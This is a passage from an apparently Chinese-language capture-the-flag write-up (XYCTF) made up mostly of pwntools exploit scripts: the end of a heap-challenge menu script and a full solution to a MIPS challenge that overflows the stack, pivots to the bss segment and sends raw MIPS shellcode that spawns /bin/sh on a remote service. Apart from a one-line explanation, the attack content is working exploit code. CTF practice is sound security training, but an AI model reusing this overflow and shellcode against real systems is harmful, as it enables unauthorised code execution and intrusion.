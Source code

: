 ```python
    ru(bytearray([0xE8, 0xAF, 0xB7, 0xE8, 0xBE, 0x93, 0xE5, 0x85, 0xA5, 0xE5, 0xA4, 0xA7, 0xE5, 0xB0, 0x8F, 0x20, 0x28, 0xE5, 0x8D, 0x81, 0xE8, 0xBF, 0x9B, 0xE5, 0x88, 0xB6, 0xE6, 0x88, 0x96, 0xE5, 0x8D, 0x81, 0xE5, 0x85, 0xAD, 0xE8, 0xBF, 0x9B, 0xE5, 0x88, 0xB6, 0x29, 0x3A]))
    sl(str(size).encode())
def delete(name):
    recv_menu()
    sl(b"2")
    ru(bytearray([0xE8, 0xAF, 0xB7, 0xE8, 0xBE, 0x93, 0xE5, 0x85, 0xA5, 0xE8, 0xA6, 0x81, 0xE9, 0x87, 0x8A, 0xE6, 0x94, 0xBE, 0xE7, 0x9A, 0x84, 0xE5, 0x90, 0x8D, 0xE5, 0xAD, 0x97, 0x3A, 0x20]))
    sl(str(name).encode())
def displayChunks():
    recv_menu()
    sl(b"3")
    return rl()
def displayChunk(name):
    recv_menu()
    sl(b"4")
    # 请输入要查看内容的内存块名字:
    ru(bytearray([0xE8, 0xAF, 0xB7, 0xE8, 0xBE, 0x93, 0xE5, 0x85, 0xA5, 0xE8, 0xA6, 0x81, 0xE6, 0x9F, 0xA5, 0xE7, 0x9C, 0x8B, 0xE5, 0x86, 0x85, 0xE5, 0xAE, 0xB9, 0xE7, 0x9A, 0x84, 0xE5, 0x86, 0x85, 0xE5, 0xAD, 0x98, 0xE5, 0x9D, 0x97, 0xE5, 0x90, 0x8D, 0xE5, 0xAD, 0x97, 0x3A, 0x20]))
    sl(str(name).encode())
    return rl()
add(1,0x100)
res = displayChunk(1)
print(res)
ia()
```

## EZ1.0?(mips)

> 白给 一个栈迁移 然后到bss端执行shellcode 

- 本地bss没有可执行权限但是远程有 这题应该麻烦的是搭建mips环境

```python
import time

from pwn import *

context(os='linux', arch='mips',endian="little", log_level='debug')
context.terminal = ['byobu', 'sp', '-h']
# p = process(["qemu-mipsel", "-g", "12345", "-L", "/usr/mipsel-linux-gnu/", "./mips"])
# pwnlib.qemu.user_path(arch='mips')
# pwnlib.qemu.ld_prefix(arch='mips')
file_name = "./mips"
url = "127.0.0.1"
port = 50176
stack_addr =  0x7ffff000
# elf = ELF(file_name)
# p= process(file_name)
p = remote(url,port)
payload=b"b"*0x40+p32(0x493400)+p32(0x400864)
p.sendafter(b"welcome XYCTF mips world",payload)

pause()

payload=b"a"*0x44+p32(0x493460)+b"\x11\x01\x06\x24\xff\xff\xd0\x04\x00\x00\x06\x24\xe0\xff\xbd\x27\x14\x00\xe4\x27\x00\x00\x05\x24\xab\x0f\x02\x24\x0c\x00\x00\x00/bin/sh"
p.send(payload)
p.interactive()

```
